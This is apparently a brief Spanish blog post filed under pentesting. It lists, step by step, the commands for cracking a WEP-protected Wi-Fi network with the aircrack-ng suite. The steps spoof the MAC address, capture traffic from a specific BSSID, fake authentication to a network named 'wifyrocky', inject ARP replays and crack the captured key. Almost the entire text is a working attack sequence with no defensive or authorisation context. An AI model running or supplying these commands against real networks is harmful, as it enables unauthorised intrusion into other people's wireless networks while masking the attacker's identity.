 ```yaml
---
title: Wep
description: 
date: 2015-09-06
lastmod: 2015-09-06
slug: wep
image: "covers/pentesting.png"
tags:
  - wep
  - aircrack
categories:
  - Pentesting
---
```



```
airmon-ng
airmon-ng stop wlan0
ifconfig wlan0 down
macchanger --mac 00:11:22:33:44:55 wlan0
airmon-ng start wlan0
```

--AHORA EMPEZAMOS--

`airodump-ng wlan0`

`airodump-ng -c '6' -w 'paquetes' --bssid 'A0:21:B7:D5:A8:78' wlan0`

*-c = canal (CH), -w = lugar donde se guardan los paquetes, --bssid = es el BSSID*


`aireplay-ng -1 0 -a 'A0:21:B7:D5:A8:78' -h '00:11:22:33:44:55' -e 'wifyrocky' wlan0`

*-a = BSSID que atacamos, -h = mac nuestra, -e = nombre wify que atacamos*

`aireplay-ng -3 -b 'A0:21:B7:D5:A8:78' -h '00:11:22:33:44:55' wlan0`

*-b = BSSID que atacamos, -h = mac nuestra*

`aircrack-ng 'paquetes-01.cap'`

*donde están guardados los paquetes*
